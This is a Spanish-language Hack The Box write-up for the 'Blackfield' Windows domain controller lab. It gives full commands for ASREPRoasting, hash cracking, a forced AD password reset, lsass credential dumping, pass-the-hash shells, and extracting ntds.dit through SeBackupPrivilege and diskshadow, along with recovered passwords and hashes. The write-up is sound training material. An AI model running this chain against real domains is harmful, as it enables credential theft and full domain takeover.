

# Blackfield

**OS**: Windows \
**Dificultad**: Difícil \
**Puntos**: 40

## Resumen
- ASREPRoast (GetNPUsers)
- Cracking Kerberos hash
- Reset AD user password
- BloodHound
- pypykatz
- SeBackupPrivilege
- Diskshadow
- Secretsdump

## Nmap Scan

`nmap -Pn -sV -sC -p- 10.10.10.192`

```
Nmap scan report for 10.10.10.192
Host is up (0.15s latency).
Not shown: 65527 filtered ports
PORT     STATE SERVICE       VERSION
53/tcp   open  domain?
| fingerprint-strings: 
|   DNSVersionBindReqTCP: 
|     version
|_    bind
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2020-06-09 02:01:30Z)
135/tcp  open  msrpc         Microsoft Windows RPC
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: BLACKFIELD.local0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: BLACKFIELD.local0., Site: Default-First-Site-Name)
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port53-TCP:V=7.80%I=7%D=6/8%Time=5EDE8A26%P=x86_64-pc-linux-gnu%r(DNSVe
SF:rsionBindReqTCP,20,"\0\x1e\0\x06\x81\x04\0\x01\0\0\0\0\0\0\x07version\x
SF:04bind\0\0\x10\0\x03");
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows
```

## Enumeración

Enumeramos el servicio smb sin usuario y password y podemos ver un directorio interesante llamado **profiles$**.

`smbclient -L 10.10.10.192`


Accediendo a ese directorio compartido se visualiza una larga lista de directorios los cuales utilizaremos para hacer una wordlist de usuarios.

- `smbclient //10.10.10.192/profiles$`


- `cat usernames.txt | cut -d " " -f 3 > userlist.txt`


Con esta lista de usuarios podemos intentar un ataque **ASREPRoast** para obtener hashes de Kerberos de algún usuario que no requiera pre-autenticación. Nos apoyaremos de la herramienta **GetNPUsers.py** de **impacket**.

`python GetNPUsers.py BLACKFIELD/ -usersfile /home/marty/htb/Box/Windows/Blackfield/userlist.txt -dc-ip 10.10.10.192`



Se puede visualizar que nos regresa el hash del usuario **support** el cual procederemos a intentar obtener su password en texto plano con la herramienta **john**.

`sudo john support_hash.txt -wordlist=/usr/share/wordlists/rockyou.txt`


Utilizando [bloodhound.py](https://github.com/fox-it/BloodHound.py) recolectaremos información sobre el dominio.

Agregamos el nombre de dominio a nuestro archivo **/etc/hosts**, ya que es necesario para utilizar el script.

`10.10.10.192    dc01.blackfield.local`

Ejecutaremos bloodhound.

`python /opt/BloodHound.py/bloodhound.py -u support -p '#00^BlackKnight' -c ALL -d blackfield.local -dc dc01.blackfield.local --dns-tcp -ns 10.10.10.192`


Teniendo ya los archivos .json los abrimos con [bloodhound](https://github.com/BloodHoundAD/BloodHound). 

> Es necesario levantar el servido **neo4j** para utilizar bloodhound. Solo se arrastran los .json a la interfaz grafica de bloodhound. \
 `sudo neo4j console` \
 `bloodhound`

Si nos vamos a la opción **Outbound Object Control / First Degree Object Control** podemos ver que el usuario **support** pude desempeñar un ataque de **ForceChangePassword**.


Investigando como realizar el ataque llegamos a este [articulo](https://malicious.link/post/2017/reset-ad-user-password-with-linux/). Esto nos ayudará a cambiar el password con **rpcclient**.

- `rpcclient -U support 10.10.10.192`
- `setuserinfo2 audit2020 23 'Doom123'`


Con las nuevas credenciales es posible acceder al directorio **forensics** del smb y descargar los archivos dentro de los directorios. Revisando los archivo nos damos cuenta que **lsass.zip** es el más importante.

- `smbclient //10.10.10.192/forensic -U audit2020`
- `cd memory_analysis\`
- `get lsass.zip`


Utilizando **pypykatz** podremos leer el archivo **lsass.DMP** y veremos que nos regresa el **NT hash** de **svc_backup** que usaremos para obtener shell con **evil-winrm**.

- `unzip lsass.zip`
- `pypykatz lsa minidump lsass.DMP`


`evil-winrm -i 10.10.10.192 -u svc_backup -H 9658d1d1dcd9250115e2205d9f48400d -s tools/`


## Escalada de Privilegios

Podemos ver que el usuario **svc_backup** pertenece a un grupo particular **Backup Operators**.

- `net user svc_backup`
- `whoami /priv | findstr Backup`


Investigando sobre ese grupo llegamos a este [articulo](https://github.com/giuliano108/SeBackupPrivilege) y con ayuda de [diskshadow](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/diskshadow) nos apoyaremos para obtener un backup del sistema y extraer el archivo **ntds.dit** y posteriormente el **system.hive**.

Primero creamos nuestro script que ejecutara **diskshadow** y lo subimos al servidor al igual que **SeBackupPrivilegeCmdLets.dll** y **SeBackupPrivilegeUtils.dll**.

> Es necesario agregar una letra de más después de cada línea ya que al ejecutar el comando se borrara una letra por línea.

##### shadow.txt
```
set metadata c:\temp\metadata.cabs
set context clientaccessibles
set context persistents
begin backups
add volume c: alias dooms
creates
expose %doom% w:s
end backups
```

- `mkdir C:\temp\`
- `upload tools/shadow.txt`
- `upload tools/SeBackupPrivilegeCmdLets.dll`
- `upload tools/SeBackupPrivilegeUtils.dll`


Ejecutaremos el comando para crear el backup.

`diskshadow /s shadow.txt`


Importamos los archivos anteriores, copiamos el **ntds.dit** y creamos **system.hive**.

- `Import-Module .\SeBackupPrivilegeUtils.dll`
- `Import-Module .\SeBackupPrivilegeCmdLets.dll`
- `Copy-FileSeBackupPrivilege w:\windows\ntds\ntds.dit c:\temp\ntds.dit`
- `reg save HKLM\SYSTEM C:\temp\system.hive`


Descargaremos ambos archivos.

- `download system.hive`
- `download ntds.dit`


Teniendo los 2 archivos usaremos **secretsdump.py** de impacket para obtener el hash del administrador y posteriormente obtener una shell.

`python /opt/impacket/examples/secretsdump.py -ntds ntds.dit -system system.hive local -just-dc-ntlm`


`python /opt/impacket/examples/wmiexec.py -hashes aad3b435b51404eeaad3b435b51404ee:184fb5e5178480be64824d4cd53b99ee Administrator@10.10.10.192`


## Referencias
https://github.com/SecureAuthCorp/impacket \
https://github.com/fox-it/BloodHound.py \
https://github.com/BloodHoundAD/BloodHound \
https://malicious.link/post/2017/reset-ad-user-password-with-linux/ \
https://github.com/skelsec/pypykatz \
https://github.com/Hackplayers/evil-winrm \
https://github.com/giuliano108/SeBackupPrivilege \
https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/diskshadow

